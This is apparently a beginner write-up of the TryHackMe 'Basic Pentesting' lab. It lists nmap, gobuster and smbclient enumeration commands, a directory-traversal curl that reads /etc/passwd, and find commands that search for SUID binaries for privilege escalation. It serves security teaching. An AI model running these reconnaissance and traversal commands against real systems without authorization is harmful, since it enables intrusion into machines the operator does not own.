 # Basic Pentesting - TryHackMe

## Overview
This room covers the fundamentals of penetration testing, including reconnaissance, enumeration, and exploitation techniques.

## Task 1: Reconnaissance
Let's start by scanning the target machine to identify open ports and services.

```bash
nmap -sC -sV -oN nmap.txt 10.10.10.10
```

### Results:
- Port 22: SSH (OpenSSH 7.4p1)
- Port 80: HTTP (Apache 2.4.6)
- Port 139: NetBIOS (Samba 4.6.2)
- Port 445: SMB (Samba 4.6.2)

## Task 2: Web Enumeration
Let's enumerate the web application running on port 80.

```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt
```

### Findings:
- `/admin` directory discovered
- `/robots.txt` contains interesting entries
- Default Apache page with server information

## Task 3: SMB Enumeration
Let's check for SMB shares and vulnerabilities.

```bash
smbclient -L //10.10.10.10
smbclient //10.10.10.10/anonymous
```

### Results:
- Anonymous share accessible
- Contains interesting files for further analysis

## Task 4: Exploitation
Based on our enumeration, we found several potential attack vectors:

1. **Web Application**: Directory traversal vulnerability
2. **SMB**: Weak credentials or misconfiguration
3. **SSH**: Potential brute force opportunity

### Initial Access:
```bash
# Exploiting directory traversal
curl "http://10.10.10.10/admin/../etc/passwd"
```

## Task 5: Privilege Escalation
After gaining initial access, let's escalate privileges.

```bash
# Check for SUID binaries
find / -perm -4000 2>/dev/null

# Check for writable files
find / -writable 2>/dev/null | grep -v proc
```

### Root Access:
Found a misconfigured binary that allows privilege escalation.

## Key Learnings
- Importance of thorough reconnaissance
- Multiple attack vectors in a single target
- Privilege escalation techniques
- Documentation of findings

## Tools Used
- Nmap
- Gobuster
- Smbclient
- Curl
- Basic Linux commands

---
*This writeup demonstrates fundamental penetration testing techniques suitable for beginners.*

